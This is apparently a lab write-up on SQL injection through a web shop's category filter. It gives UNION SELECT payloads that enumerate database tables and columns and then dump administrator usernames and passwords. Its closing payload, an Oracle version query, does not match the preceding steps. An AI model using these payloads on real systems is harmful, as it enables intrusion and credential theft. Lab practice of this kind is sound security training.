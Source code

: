 **Objective**
Reveal administrator username and password stored on SQL database to login.

**SQLi**
- Structured Query Language or SQL injection occurs when attacker sends malicious input to SQL database. 
- Lack of validation or sanitisation of input leaves the database vulnerable to exploitation of stored information.

**Point of Entry**
Discover that the category filter function is vulnerable to SQLi. 
- By replacing category filter value in GET request with SQL 1. `'+UNION+SELECT+'abc','def'#`.
- Both `'abc'` and `'def'` are printed on the page. 
- This reveals category filter as point of entry for a similar query to print database details on page.

To retrieve sensitive user information, refer [SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- For a list of all data tables on database, replace category filter value with payload `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
- Repeat for table name details with `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
- Insert returned user details into payload to retrieve user details `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

**Payload**`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`
